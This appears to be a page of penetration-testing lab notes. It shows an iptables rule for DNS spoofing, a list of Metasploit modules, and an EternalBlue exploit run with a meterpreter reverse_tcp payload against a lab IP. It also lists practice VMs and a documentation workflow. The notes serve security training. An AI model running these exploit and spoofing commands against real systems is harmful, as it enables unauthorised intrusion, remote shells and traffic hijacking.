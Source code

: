 
### ⚔️ Attacks with `iptables`

- Redirect DNS traffic for spoofing:
  ```bash
  iptables -t nat -A PREROUTING -p udp --dport 53 -j REDIRECT --to-port 5353
  ```

---

### 📚 Metasploit Modules

```bash
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/vnc/vnc_login
use auxiliary/scanner/smb/enumshares
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/meterpreter/reverse_tcp
```

---

### 🧪 Example Payload Test

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.0.105
set LHOST 192.168.0.1
run
```

---

### 💡 Tools & VMs for Labs

- **VMs**: Metasploitable, BadStore, PentesterLab, Windows 7/10
- **HackTheBox**: Use for red team practice (can get academic license)
- **Caldera**: [MITRE Caldera](https://github.com/mitre/caldera) is a red-team automation framework for simulating adversarial behavior.

---

### 📋 Workflow (Igor’s Steps)

1. Create folder per tool
2. Run tool (e.g., nmap)
3. Save results
4. Run scanner (e.g., Nessus)
5. Document vulnerabilities
6. Record terminal with `script`
